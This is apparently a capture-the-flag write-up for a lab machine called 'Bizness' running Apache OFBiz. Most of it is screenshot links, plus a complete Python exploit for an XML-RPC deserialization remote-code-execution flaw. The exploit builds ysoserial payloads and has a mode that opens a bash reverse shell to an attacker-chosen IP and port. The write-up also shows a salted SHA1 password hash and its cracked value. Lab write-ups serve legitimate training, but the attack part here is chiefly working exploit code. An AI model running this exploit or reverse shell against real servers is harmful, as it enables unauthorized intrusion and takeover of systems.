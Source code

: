 # Savage-Labs : Bizness Writeup

Name: Bizness
Date:  
Difficulty:  
Goals:  
Learnt:
Beyond Root:

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

![](httpswebroot.png)
![](subscribefield-works.png)
![](subscribefield.png)
![](contactusformdoesnotwork.png)
![](nocontactform-php302.png)
![](trying50178.png)
![](gb-controlpage.png)
![](gbfindthecontrolsubpages.png)
![](ofbiz18-12.png)
![](fail-webtool-cve2023-49070.png)
![](fail-control-cve2023-49070.png)
![](PONG.png)
![](defaultpasswordjustforcompletionism.png)
![](tryingtopingsomehow.png)
![](cyberchefhelpingforbase64theysoserialpayload.png)
![](bestsolutiontothejavaissues.png)



## Exploit



```bash
sudo apt-get install openjdk-11-jdk
```

Modded by running from the absolute path instead from the alias's path or setting up a another alias
```python
# This exploit has been written by Abdelhameed Ghazy 
# Twitter : https://twitter.com/abd0ghazy
# https://www.linkedin.com/in/abdelhameed-ghazy-1a50b619a/

import requests, sys, subprocess,base64,urllib3,os
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)



headers = {
    'Content-Type': 'application/xml'
}


def rce(url,arg):
    try:
        payload=subprocess.check_output(["/usr/lib/jvm/java-11-openjdk-amd64/bin/java","-jar","ysoserial-all.jar","CommonsBeanutils1",arg])
    except:
        sys.exit("""
        Command didn't executed, please make sure you have java binary v11
        this exploit tested on this env
        openjdk version "11.0.17" 2022-10-18
        OpenJDK Runtime Environment (build 11.0.17+8-post-Debian-2)
        OpenJDK 64-Bit Server VM (build 11.0.17+8-post-Debian-2, mixed mode, sharing)
        """)
    

    base64_payload=base64.b64encode(payload).decode()
    xml_data = '''<?xml version="1.0"?>
    <methodCall>
        <methodName>RCE-Test</methodName>
        <params>
            <param>
                <value>
                    <struct>
                        <member>
                            <name>rce</name>
                            <value>
                                <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">
                                %s
                                </serializable>
                            </value>
                        </member>
                    </struct>
                </value>
            </param>
        </params>
    </methodCall>
    '''%base64_payload
    r=requests.post(url+"webtools/control/xmlrpc;/?USERNAME=Y&PASSWORD=Y&requirePasswordChange=Y",data=xml_data,headers=headers,verify=False)
    if "java.lang.reflect.InvocationTargetException" in r.text:
        print("Exploit Completed Successfully !")
    else:
        print("Not Sure Worked or not ")



def dns(url,arg):
    try:
        payload=subprocess.check_output(["/usr/lib/jvm/java-11-openjdk-amd64/bin/java","-jar","ysoserial-all.jar","URLDNS",arg])
    except:
        sys.exit("""
        Command didn't executed, please make sure you have java binary v11
        this exploit tested on this env
        openjdk version "11.0.17" 2022-10-18
        OpenJDK Runtime Environment (build 11.0.17+8-post-Debian-2)
        OpenJDK 64-Bit Server VM (build 11.0.17+8-post-Debian-2, mixed mode, sharing)
        """)
    base64_payload=base64.b64encode(payload).decode()
    xml_data = '''<?xml version="1.0"?>
    <methodCall>
        <methodName>Dns</methodName>
        <params>
            <param>
                <value>
                    <struct>
                        <member>
                            <name>rce</name>
                            <value>
                                <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">
                                %s
                                </serializable>
                            </value>
                        </member>
                    </struct>
                </value>
            </param>
        </params>
    </methodCall>
    '''%base64_payload
    r=requests.post(url+"webtools/control/xmlrpc;/?USERNAME=Y&PASSWORD=Y&requirePasswordChange=Y",data=xml_data,headers=headers,verify=False)
    if "No such service" in r.text:
        print("Exploit Completed Successfully !")
    else:
        print("Not Sure Worked or not ")

def shell(url,arg):
    try:
        ip=arg.split(":")[0]
        port=int(arg.split(":")[1])
        rev_shell_command="bash -i >& /dev/tcp/{ip}/{port} 0>&1".format(ip=ip,port=port)
        encoded_rev_shell_command=base64.b64encode(rev_shell_command.encode()).decode()
        rev_shell1='bash -c echo${IFS}%s|base64${IFS}-d|bash'%encoded_rev_shell_command
        rce(url,rev_shell1)

    except:
        sys.exit("Please make sure from data")


def main():

    if not len(sys.argv) > 3:
        sys.exit("""
                Usage: 
                python3 exploit.py target_url rce command
                python3 exploit.py target_url dns dns_url
                python3 exploit.py target_url shell ip:port
                """)

    if not os.path.exists("ysoserial-all.jar"):
        sys.exit("ysoserial-all.jar file must be in the same directory")

    target_url=str(sys.argv[1])
    action=str(sys.argv[2])
    arg=str(sys.argv[3])
    if not target_url.endswith("/"):
        target_url=target_url+"/"
    if not target_url.startswith("http://") and not target_url.startswith("https://"):
        sys.exit("""
                Please Enter a Valid target_url
                Ex: https://example.com
                """)

    if action == "rce":
        rce(target_url,arg)
    elif action == "dns":
        if not arg.startswith("http://") and not arg.startswith("https://"):
                    sys.exit("""
                Please Enter a Valid dns url
                Ex: https://example.com
                """)
        dns(target_url,arg)

    elif action == "shell":
        shell(target_url,arg)
    else:
        sys.exit("""
        Usage: 
        python3 exploit.py target_url rce command
        python3 exploit.py target_url dns dns_url
        python3 exploit.py target_url shell ip:port
        """)
        

main()

```
## Foothold

![1080](footholdacquired.png)
## PrivEsc

```
cat tylers-help | uniq | grep -v 'auto-save\|ACCESS\|USER'
cat tylers-help | uniq | grep 'currentPassword'

```

It is a sha1 hash
```
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

![](correcthashcatmode.png)

The interesting part being that we have to put the salt in with the command in hashcat
![](orwegetthiserror.png)

Team mates wave and 0x67673068 *"Stored as a base64 url-safe encoded fashion and needs to be reconverted back to traditional hex"* 
![](goodwavetothesave.png)

Remember to stub no cry! Lmao
![](stubnopassword.png)

For monkey related password
![](monkeyrelatedpasswords.png)

```
b8fd3f41a541a435857a8f3e751cc3a91c174362:d:monkeybizness
```

## Post Root Reflection

- Look for PoC exploits
- Sometimes it is a race to sign up to oracle..

## Beyond Root


